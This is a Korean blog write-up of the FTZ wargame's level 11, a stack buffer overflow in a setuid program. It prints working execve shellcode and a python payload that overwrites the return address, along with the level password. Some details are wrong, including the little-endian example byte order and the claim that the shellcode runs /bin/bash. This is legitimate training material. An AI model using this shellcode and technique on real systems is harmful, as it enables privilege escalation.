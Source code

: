```yaml
---
title: BOF/ ftz-level11
tags: ftz
---
```


11번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 11
**ID : level11**  
**PASSWD : what!@#$?**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
main에 전달받은 첫 번째 인자(argv[0]은 파일명)를 str에 복사하여 출력하는 소스  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**
level12의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level11에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level11/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 264byte의 공간을 메모리에 할당했을을 알 수 있다.  
main+41 line을 보면 str의 주소는 ebp-264이며 str(256Byte)뒤에 8Byte의 dummy값이 있음을 알 수 있다.  

**메모리 구조**  
---|
str(256Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
what is sfp? - 스택 베이스 값.  
what is ret? - return address로 다음에 실행할 명령이 위치한 메모리 주소.  

<br />

**main의 ret을 쉘코드가 들어있는 메모리의 주소로 변조한다면 main이 종료될 때 쉘코드가 실행될 것이다.**  

<br />
![그림2](/assets/ftz/level11/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 하자.  
환경변수란? - 운영체제가 참조하는 변수  
SHELLCODE라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣는다.  

<br />
![그림3](/assets/ftz/level11/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level11/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level11/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

<br />

#### 페이로드
./attackme \`python -c "print 'A'*268 + '\x11\xfc\xff\xbf'"`
